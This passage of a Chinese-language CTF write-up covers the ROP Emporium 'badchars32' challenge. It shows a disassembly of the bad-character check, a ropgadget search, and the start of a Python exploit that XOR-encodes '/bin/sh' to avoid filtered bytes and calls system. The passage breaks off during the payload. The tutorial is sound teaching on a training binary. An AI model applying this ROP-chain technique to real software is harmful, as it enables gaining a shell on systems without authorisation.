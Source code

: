 ```text
   0x08048858 <+87>:    add    eax,ecx
   0x0804885a <+89>:    movzx  eax,BYTE PTR [eax]
   0x0804885d <+92>:    cmp    dl,al
   0x0804885f <+94>:    jne    0x804886e <checkBadchars+109>
   0x08048861 <+96>:    mov    edx,DWORD PTR [ebp+0x8]
   0x08048864 <+99>:    mov    eax,DWORD PTR [ebp-0x4]
   0x08048867 <+102>:   add    eax,edx
   0x08048869 <+104>:   mov    BYTE PTR [eax],0xeb
   0x0804886c <+107>:   jmp    0x8048878 <checkBadchars+119>
   0x0804886e <+109>:   add    DWORD PTR [ebp-0x8],0x1
   0x08048872 <+113>:   cmp    DWORD PTR [ebp-0x8],0x7
   0x08048876 <+117>:   jbe    0x8048847 <checkBadchars+70>
   0x08048878 <+119>:   add    DWORD PTR [ebp-0x4],0x1
   0x0804887c <+123>:   mov    eax,DWORD PTR [ebp-0x4]
   0x0804887f <+126>:   cmp    eax,DWORD PTR [ebp+0xc]
   0x08048882 <+129>:   jb     0x804883e <checkBadchars+61>
   0x08048884 <+131>:   nop
   0x08048885 <+132>:   leave  
   0x08048886 <+133>:   ret
End of assembler dump.
```

很明显，地址 `0x08048807` 到 `0x08048823` 的字符就是所谓的敏感字符。处理敏感字符在利用开发中是经常要用到的，不仅仅是要对参数进行编码，有时甚至地址也要如此。这里我们使用简单的异或操作来对字符串编码和解码。

找到 gadgets：

```text
$ ropgadget --binary badchars32 --only "mov|pop|ret|xor"
...
0x08048893 : mov dword ptr [edi], esi ; ret
0x08048896 : pop ebx ; pop ecx ; ret
0x08048899 : pop esi ; pop edi ; ret
0x08048890 : xor byte ptr [ebx], cl ; ret
```

整个利用过程就是写入前编码，使用前解码，下面是 payload：

```python
from zio import *

xor_ebx_cl  = 0x08048890
pop_ebx_ecx = 0x08048896
pop_esi_edi = 0x08048899
mov_edi_esi = 0x08048893

system_plt  = 0x080484e0
data_addr   = 0x0804a038

# encode
badchars    = [0x62, 0x69, 0x63, 0x2f, 0x20, 0x66, 0x6e, 0x73]
xor_byte    = 0x1
while(1):
    binsh = ""
    for i in "/bin/sh\x00":
        c = ord(i) ^ xor_byte
        if c in badchars:
            xor_byte += 1
            break
        else:
            binsh += chr(c)
    if len(binsh) == 8:
        break

# write
payload  = "A"*44
```